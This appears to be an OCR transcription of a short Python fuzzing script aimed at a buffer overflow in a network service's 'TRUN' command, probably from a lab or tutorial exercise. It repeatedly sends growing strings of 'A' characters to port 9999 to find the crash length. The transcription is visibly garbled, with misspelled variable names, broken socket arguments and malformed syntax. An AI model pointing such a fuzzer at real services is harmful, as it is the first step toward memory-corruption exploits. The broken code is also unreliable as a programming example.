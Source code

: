 #/usr/bin/python
import sys, socket
from time import sleep

bugger = "A" * 100
while true :
       try : 

             s=socket.socket(socket.AF_INE,socket.)
             s.connect(('198.168.0.1' 9999))
             s.send(('TRUN/.:/' +buffer))
             s.close ()
             sleep  (1)
             buffer = buffer + "A"*100

except:
        print " Fuzzing crashed at %s bytes " % str(lan(duffer))
        sys.exit
